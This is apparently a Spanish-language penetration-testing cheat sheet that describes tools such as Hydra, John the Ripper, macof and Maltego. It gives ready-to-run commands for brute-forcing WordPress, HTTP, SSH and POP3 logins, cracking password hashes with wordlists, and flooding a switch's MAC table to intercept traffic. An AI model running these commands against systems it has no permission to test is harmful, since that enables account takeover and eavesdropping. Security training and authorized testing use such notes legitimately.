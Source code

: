 ### Hash-identifier 
Para identificar qué cifrado tiene un texto 

### Hydra, xhydra 
Logueador por fuerza bruta web. 

```bash
hydra -L <name.txt> -P <pass.txt> <ip> http-post-form “/wp-login.php:log=^USER^&pwd=^PASS^:F=ERROR”   
hydra -l admin -P /pass.txt <ip> -s 8081 http-post-form "/info/login.html:admin_Username=^USER^&admin_Password=^PASS^:submit=logIn_btn" -V -t 1 
```

o 
```
hydra -l admin -P <passwordlist> -e ns -V <targetip> http-get /  
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt -t 6 ssh://192.168.1.123 
Hydra -e nsr <ip> pop3 -l <user> -P <rockyou.txt> -s <port> -V 
hydra -l username -P password_file.txt -s port -f ip_address request_method /path #para pribar sobre access
```
 


 
### john 
crackea password 

```bash
john --wordlist=rockyou.txt <passfile> --pot=<dondequieroquedejelosresultados>
john file.hash
```
(para crackear el hash de un zip hecho con zip2john) se puede usar el parámetro --incremental para fuerza bruta. 

 

### Macchanger 
Cambia la mac address 


### Macof 
Para hacer MAC flooding. (en este estado el switch pasa a hacer broadcast (sale de unicast) y con wireshark se puede interceptar el contenido de la comunicación. 

```bash
macof -i <interface> -n <cantidad de veces> 
```


 

### Maltego 
Permite, a través de un dato cualquiera (cuenta de usuario, dominio, mail, etc.) encontrar información relacionada con este disponible en la web (como redes sociales, subdominios, libretas de direcciones, etc.). 
